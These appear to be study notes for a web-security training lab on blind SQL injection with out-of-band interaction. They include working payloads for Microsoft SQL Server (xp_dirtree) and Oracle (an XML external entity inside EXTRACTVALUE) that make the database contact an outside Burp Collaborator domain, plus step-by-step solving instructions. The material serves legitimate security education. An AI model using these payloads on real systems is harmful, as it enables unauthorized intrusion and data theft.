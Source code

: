 ## Introduction
- Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection
- In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control.
- A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service).
- This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.
- The easiest and most reliable way to use out-of-band techniques is using Burp Collaborator.
- This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application.
- The techniques for triggering a DNS query are highly specific to the type of database being used.
- On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:
```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This will cause the database to perform a lookup for the following domain:
```sql
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

## Steps to solve lab
### Desc - Blind SQL injection with out-of-band interaction
**Our end goal** - This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

`UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://itfafsrokyrrvo87xpa4udlo6fc60wol.oastify.com/"> %remote;]>'),'/l') FROM dual`

1. Send the `/` to burp Repeater and analyse the `trackingId` parameter.
![[Blind_SQL_injection_with_out-of-band_interaction.png]]

2. Now, pick any payload from [[SQL injection cheat sheet]] and try to do a DNS request to your burp collaborator domain and monitor for any interations.
![[Blind_SQL_injection_with_out-of-band_interaction2.png]]

3. Now, you know there is a DNS request send to your Collaborator server. So, navigate to Collaborator tab and click on poll now.
![[Blind_SQL_injection_with_out-of-band_interaction3.png]]

